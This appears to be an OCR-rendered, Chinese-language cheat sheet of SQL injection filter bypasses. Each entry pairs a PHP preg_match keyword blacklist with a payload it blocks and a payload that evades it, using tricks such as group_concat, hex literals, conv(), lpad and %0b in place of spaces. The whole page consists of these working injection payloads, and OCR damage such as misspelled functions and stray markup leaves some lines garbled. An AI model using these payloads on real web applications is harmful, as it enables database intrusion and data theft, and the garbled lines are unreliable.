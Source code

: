 ```
会过滤的攻击代码    1 && (select user from users where user_id = 1) = 'admin'
绕过方式    1 && (select user from users limit 1) = 'admin'
```
过滤关键字   and, or, union, where, limit
```
php代码   preg_match('/(and|or|union|where|limit)/i', $id)
会过滤的攻击代码    1 && (select user from users limit 1) = 'admin'
绕过方式    1 && (select user from users group by user_id having user_id = 1) = 'admin'#user_id聚合中user_id为1的user为admin
```
过滤关键字   and, or, union, where, limit, group by
```
php代码   preg_match('/(and|or|union|where|limit|group by)/i', $id)
会过滤的攻击代码    1 && (select user from users group by user_id having user_id = 1) = 'admin'
绕过方式    1 && (select substr(group_concat(user_id),1,1) user from users ) = 1
```
过滤关键字   and, or, union, where, limit, group by, select
```
php代码   preg_match('/(and|or|union|where|limit|group by|select)/i', $id)
会过滤的攻击代码    1 && (select substr(gruop_concat(user_id),1,1) user from users) = 1
绕过方式    1 && substr(user,1,1) = 'a'
```
过滤关键字   and, or, union, where, limit, group by, select, '
```
php代码   preg_match('/(and|or|union|where|limit|group by|select|\')/i', $id)
会过滤的攻击代码    1 && (select substr(gruop_concat(user_id),1,1) user from users) = 1
绕过方式    1 && user_id is not null 1 && substr(user,1,1) = 0x61 1 && substr(user,1,1) = unhex(61)
```
过滤关键字   and, or, union, where, limit, group by, select, ', hex
```
php代码   preg_match('/(and|or|union|where|limit|group by|select|\'|hex)/i', $id)
会过滤的攻击代码    1 && substr(user,1,1) = unhex(61)
绕过方式    1 && substr(user,1,1) = lower(conv(11,10,16)) #十进制的11转化为十六进制，并小写。
```
过滤关键字   and, or, union, where, limit, group by, select, ', hex,
``` substr
php代码   preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr)/i', $id)
会过滤的攻击代码    1 && substr(user,1,1) = lower(conv(11,10,16))/td>
绕过方式    1 && lpad(user,7,1)
```
过滤关键字   and, or, union, where, limit, group by, select, ', hex, 
```substr, 空格
php代码   preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr|\s)/i', $id)
会过滤的攻击代码    1 && lpad(user,7,1)/td>
绕过方式    1%0b||%0blpad(user,7,1)
```
过滤关键字   and or union where
```
php代码   preg_match('/(and|or|union|where)/i',$id)
会过滤的攻击代码    1 || (select user from users where user_id = 1) = 'admin'
绕过方式    1 || (select user from users limit 1) = 'admin'
```